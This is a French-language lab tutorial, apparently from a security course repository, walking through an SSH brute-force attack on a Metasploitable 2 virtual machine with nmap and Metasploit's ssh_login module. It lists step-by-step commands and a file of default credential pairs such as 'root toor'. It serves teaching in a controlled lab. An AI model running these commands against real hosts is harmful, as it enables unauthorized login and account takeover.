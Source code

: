 ### Attaque par Force Brute sur un Service SSH avec Metasploit

#### Prérequis
1. **Kali Linux** (comme machine attaquante)
2. **Metasploitable 2** (comme machine cible)
3. **VirtualBox** (ou tout autre logiciel de virtualisation)
4. **Connexion réseau** entre les machines virtuelles

### Étapes de l'attaque par force brute SSH avec Metasploit

#### Étape 1: Configuration des machines virtuelles
1. Lancez Kali Linux et Metasploitable 2 dans VirtualBox.
2. Vérifiez les adresses IP des deux machines. Dans Kali Linux, utilisez la commande suivante :
    ```bash
    ifconfig
    ```
   Notez l'adresse IP de la machine cible (Metasploitable).

#### Explication des commandes
- `ifconfig` : Affiche les informations réseau, y compris l'adresse IP de votre machine.
- `nmap -sS -sV [adresse IP de la cible]` :
  - `-sS` : Effectue un scan SYN, qui est une méthode courante pour détecter les ports ouverts.
  - `-sV` : Identifie les versions des services en cours d'exécution sur les ports ouverts.

#### Étape 2: Scanner les ports ouverts de la machine cible
1. Sur Kali Linux, effectuez un scan Nmap pour identifier les ports ouverts sur la machine cible. Par exemple, si l'adresse IP de la machine cible est `192.168.0.5` :
    ```bash
    nmap -sS -sV 192.168.0.5
    ```
   Cela vous donnera la liste des ports ouverts et des services qui y sont associés. Recherchez spécifiquement le port 22/tcp qui est utilisé par le service SSH.

- Par exemple, j'ai scanné une machine windows 10 qui est sur le même natnetwork de notre machine Kalilinux (connectés via un naatnetwork)

![image](https://github.com/hrhouma/prevention-securite-de-linformation/assets/10111526/c1b39a58-f4f9-4d6a-84f6-a0bd41ba4282)


#### Étape 3: Configuration de Metasploit
1. Ouvrez la console Metasploit :
    ```bash
    msfconsole
    ```
2. Recherchez le module `ssh_login` :
    ```bash
    search ssh_login
    ```
3. Utilisez le module `auxiliary/scanner/ssh/ssh_login` :
    ```bash
    use auxiliary/scanner/ssh/ssh_login
    ```
4. Affichez les options du module :
    ```bash
    show options
    ```

#### Étape 4: Préparation du fichier de mots de passe
1. Créez un fichier de mots de passe nommé `passwords.txt`. Par exemple :
    ```plaintext
    msfadmin msfadmin
    root toor
    user 123456
    admin admin
    ```
   Sauvegardez ce fichier dans un répertoire de votre choix sur la machine Kali Linux, par exemple `/home/user/passwords.txt`.

#### Étape 5: Configuration des options de l'attaque
1. Définissez l'adresse IP de la cible (RHOST) :
    ```bash
    set RHOST 192.168.0.5
    ```
2. Définissez le nombre de threads pour accélérer l'attaque :
    ```bash
    set THREADS 3
    ```
3. Arrêtez l'attaque après un succès :
    ```bash
    set STOP_ON_SUCCESS true
    ```
4. Activez les sorties verbales pour voir les tentatives :
    ```bash
    set VERBOSE true
    ```
5. Fournissez le fichier de mots de passe (USERPASS_FILE) :
    ```bash
    set USERPASS_FILE /home/user/passwords.txt
    ```

#### Étape 6: Lancement de l'attaque
1. Lancez l'attaque en utilisant la commande :
    ```bash
    run
    ```
   Surveillez les tentatives dans le terminal. Si l'attaque réussit, Metasploit retournera le nom d'utilisateur et le mot de passe corrects.

### Exemple de fichier de mots de passe
Voici à nouveau un exemple de fichier de mots de passe (nommé `passwords.txt`) que vous pouvez utiliser :
```plaintext
msfadmin msfadmin
root toor
user 123456
admin admin
```

### Exemple d'adresse IP de cible
- **Machine attaquante (Kali Linux)** : 192.168.0.2
- **Machine cible (Metasploitable)** : 192.168.0.5

Assurez-vous que les adresses IP correspondent à votre configuration réseau. Vous pouvez utiliser des adresses IP dans la même plage pour les machines virtuelles pour simplifier la configuration.

### Conclusion
Ce tutoriel montre comment réaliser une attaque par force brute en utilisant Metasploit sur un service SSH d'une machine Metasploitable. Utilisez ces techniques uniquement dans un environnement contrôlé et à des fins éducatives. Attaquer des systèmes sans autorisation est illégal et contraire à l'éthique.

